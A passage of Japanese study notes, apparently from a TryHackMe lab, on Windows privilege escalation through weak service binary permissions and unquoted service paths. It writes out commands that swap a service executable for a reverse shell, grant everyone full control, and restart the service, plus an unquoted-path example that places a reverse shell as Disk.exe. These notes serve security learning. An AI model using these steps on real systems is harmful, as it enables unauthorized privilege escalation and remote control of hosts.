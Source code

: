 以下でリバースシェルを設置できる
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.

最後に、サービスを一度停止してから、実行してリバースシェルを開始する
C:\> sc stop windowsscheduler
C:\> sc start windowsscheduler
```
ㅤ  
ㅤ  
ㅤ  
### 引用符で囲まれていないサービスパス

例えば以下のようなBINARY_PATH_NAMEが存在するとする

```
C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe
```
  
このプログラムを実行する際にWindowsは以下の解釈を行う  
```
C:\MyPrograms\Disk.exe
↓存在しないため、実行ファイルの検索を続行
C:\MyPrograms\Disk Sorter.exe
↓存在しないため、実行ファイルの検索を続行
C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe
```

なお、Windowsはこのバグの悪用に対処するために、  
**権限のないユーザーが書き込みできない場所に、C:\Program FilesまたはC:\Program Files (x86)デフォルトでインストールされる**  
逆をいえば**パスが誰でも書き込み可能な場合、脆弱性が悪用される可能性がある**  

```
Disk SorterバイナリがC:\MyPrograms配下にあり、ユーザーがサブディレクトリやファイルを作成できる権限(AD権限、WD権限)がある場合

C:\>icacls c:\MyPrograms
c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
              BUILTIN\Administrators:(I)(OI)(CI)(F)
              BUILTIN\Users:(I)(OI)(CI)(RX)
              BUILTIN\Users:(I)(CI)(AD)
              BUILTIN\Users:(I)(CI)(WD)
              CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files


以下のDisk.exeというリバースシェルを生成して配置、サービス再起動でシェルを取得できる
C:\> move C:\Users\thm-unpriv\reverseshell.exe C:\MyPrograms\Disk.exe
C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
        Successfully processed 1 files.
